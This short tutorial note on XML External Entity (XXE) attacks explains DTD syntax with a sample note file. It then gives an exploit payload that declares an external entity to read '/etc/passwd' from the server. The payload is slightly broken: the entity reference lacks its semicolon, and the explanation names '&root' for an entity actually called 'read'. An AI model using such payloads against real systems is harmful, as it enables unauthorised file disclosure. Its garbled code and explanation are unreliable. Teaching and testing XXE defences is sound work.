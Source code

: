 # XML External Entity Hacking

## Document Type Definition (DTD)
Defines the structure of the document

note.dtd
```xml
<!DOCTYPE note [ 
    <!ELEMENT note (to,from,heading,body)> 
    <!ELEMENT to (#PCDATA)> 
    <!ELEMENT from (#PCDATA)> 
    <!ELEMENT heading (#PCDATA)> 
    <!ELEMENT body (#PCDATA)> 
]>
```

`!DOCTYPE note` -  Root element named note
`!ELEMENT note` - Parent element that must contain to, from, heading, body
`!ELEMENT to` - To element. Data type "#PCDATA"
`(#PCDATA)` - Parsable  data

request.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>mom</to>
    <from>me</from>
    <heading>flowers</heading>
    <body>Just kidding, XXE Attack!</body>
</note>
```

## Exploit
Instead of reading the dtd file, we will read the password file.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read</root>
```

`&root` - Output the result of SYSTEM 'file:///etc/passwd'

